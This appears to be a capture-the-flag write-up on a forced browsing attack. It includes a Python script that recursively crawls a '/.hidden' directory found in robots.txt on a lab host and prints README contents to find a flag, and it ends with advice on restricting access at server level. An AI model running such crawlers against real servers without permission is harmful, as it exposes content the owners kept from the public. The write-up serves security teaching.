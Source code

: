 # Forced browsing attack

### Introduction
Forced browsing refers to the process of attempting to access and view files stored within directories on a web server.

### Procedure
After reviewing the `robots.txt` file, it is apparent that it includes `Disallow: /.hidden`, indicating that crawlers should refrain from accessing this directory. However, this directive does not explicitly prevent scraping content from this directory. Consequently, we plan to create a Python script to display the contents of each file within that folder.

### Program
To begin, we'll initiate by crafting a function that retrieves the content of a file stored on the server.
``` python
def try_robots(path: str = ""):
	url = f'http://192.168.56.101/.hidden{path}'

	response = requests.get(url)

	return response.text
```

Next, we'll use the previously created function to extract the content from each index page. This will provide us with information about the directories and files within the checked directory. Subsequently, we'll parse the index content to generate separate lists for directories and files.
``` python
def filter_index(path: str = "/"):
	text = try_robots(path)

	lines = text.split('\n')

	links = [x for x in lines if x.startswith('<a href=')]
	links.reverse()

	for link in links:
		if type(link) == str:
			start_index = link.find('"') + 1
			end_index = link.find('"', start_index + 1)
			if start_index != -1 and end_index != -1:
				file = link[start_index:end_index]
				new_path = path + file
				if file != "README":
					filter_index(new_path)
				else:
					text = try_robots(new_path)
					print(f"[{new_path}]: ", text)
					if len(text) > 40:
						exit()
```

If a value within that list is identified as `README`, we'll proceed to retrieve its content using the `try_robots()` function created earlier. Subsequently, if the content contains more than 40 characters, we can infer that it potentially includes the flag we're seeking.

### How to fix
To address this issue thoroughly, it is advisable to restrict access to this directory rather than solely disabling it within the `robots.txt` file. This involves configuring server-level permissions or utilizing access controls such as authentication mechanisms or web server configurations to prevent unauthorized access to the directory. Simply relying on the `robots.txt` file may not provide adequate protection against accessing sensitive content within the directory.

### Sources
[Forced browsing](https://owasp.org/www-community/attacks/Forced_browsing)